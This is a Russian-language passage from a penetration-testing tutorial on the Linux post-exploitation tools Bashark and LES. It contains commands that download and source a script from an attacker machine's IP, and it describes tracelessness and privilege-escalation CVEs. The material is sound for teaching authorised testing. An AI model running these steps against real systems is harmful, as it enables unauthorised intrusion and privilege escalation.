 Настало время поработать с **Bashark**. Он был создан компанией [**RedCode Labs**](https://redcodelabs.io/). Bashark был разработан для оказания помощи тестировщикам на проникновение и исследователям безопасности на этапе пост-эксплуатации и оценки безопасности сервера на базе Linux, OSX или Solaris.

Некоторые из выдающихся особенностей Bashark заключаются в том, что это bash-скрипт, что означает, что он может быть запущен непосредственно из терминала без какой-либо установки. Он быстр и не перегружает целевую машину. Bashark не имеет каких-либо конкретных зависимостей, которые вам потребовались бы для установки. Поскольку он стирает данные о своем присутствии после выполнения работы, его трудно обнаружить. Пользователь скачал Bashark с помощью команды «**wget**», которая локально размещена на машине злоумышленника. Затем он предоставил ему разрешения на выполнение с помощью команды «**chmod**» и запустил сам скрипт. Скрипт обновляет ваш Shell, чтобы иметь возможность выполнять различные команды.

```
cd /tmp  
wget 192.168.1.5/bashark.sh  
chmod 777 bashark.sh  
source bashark.sh
```

![[Pasted image 20240310010231.png]]

Здесь пользователь использовал команду «getperm-c» для чтения битов SUID на nano, cp и find среди других двоичных файлов. Bashark также перечислил все общие пути к конфигурационным файлам с помощью команды «getconf».

```
getperm -c
getconf
```

![[Pasted image 20240310010248.png]]

### **LES: Linux Exploit Suggester**

**Ссылка:** [**LES**](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

Пришло время поговорить о **LES**. Он был создан компанией [**Z-Labs**](https://z-labs.eu/). Как и другие скрипты в этой статье, он также был разработан, чтобы помочь тестировщикам безопасности и аналитикам проверить машину Linux на наличие потенциальных уязвимостей и возможности повышения привилегий. LES создан таким образом, что он может работать на разных версиях или сборках Linux. Обширные исследования привели к усовершенствованию этого инструмента и сделали его надежным, с минимальным количеством ложных срабатываний. Основная работа **LES** начинается с создания первоначального списка эксплойтов на основе обнаруженной версии ядра. Затем он проверяет наличие определенных тегов для каждого эксплойта. **LES** показывает все полученные результаты, ранжируя их в соответствии с уровнем потенциального риска. Видно, что целевая машина имеет уязвимости **CVE 2021-3156, CVE 2018-18955, CVE 2019-18634, CVE, 2019-15666, CVE 2017-0358**. Пользователь может почитать о них и использовать полученную информацию для повышения привилегий на целевой машине.

```
chmod 777 les.sh  
./les.sh
```
